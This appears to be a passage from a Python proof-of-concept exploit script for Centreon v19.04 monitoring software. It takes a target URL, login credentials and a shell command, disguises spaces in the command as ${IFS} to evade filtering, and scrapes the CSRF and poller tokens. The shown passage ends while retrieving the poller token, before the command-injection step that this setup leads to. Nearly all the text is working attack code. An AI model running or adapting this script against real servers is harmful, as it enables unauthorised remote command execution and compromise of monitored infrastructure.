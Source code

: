     # Vendor Homepage: https://www.centreon.com/
    # Version: v19.04
    # Tested on: CentOS 7.6 / PHP 5.4.16
    '''
    
    import re
    import requests
    import socket
    import sys
    import warnings
    from bs4 import BeautifulSoup
    
    # turn off BeautifulSoup warnings
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
    
    if len(sys.argv) != 5:
        print(len(sys.argv))
        print("[~] Usage : ./centreon-exploit.py url username password command")
        exit()
    
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    command = sys.argv[4].replace(" ", '${IFS}')
    
    burp = {'http': 'http://localhost:8080'}
    
    request = requests.session()
    request.proxies = burp
    print("[+] Retrieving CSRF token to submit the login form")
    page = request.get(url+"/index.php")
    html_content = page.text
    soup = BeautifulSoup(html_content, features="lxml")
    token = soup.findAll('input')[3].get("value")
    
    login_info = {
        "useralias": username,
        "password": password,
        "submitLogin": "Connect",
        "centreon_token": token
    }
    login_request = request.post(url+"/index.php", login_info)
    print("[+] Login token is : {0}".format(token))
    if "Your credentials are incorrect." not in login_request.text:
        print("[+] Logged In Sucssfully")
        print("[+] Retrieving Poller token")
    
        poller_configuration_page = url + "/main.get.php?p=60901"
        get_poller_token = request.get(poller_configuration_page)
        poller_html = get_poller_token.text
        poller_soup = BeautifulSoup(poller_html, features="lxml")
        poller_token = poller_soup.findAll('input')[24].get("value")
        print("[+] Poller token is : {0}".format(poller_token))
    
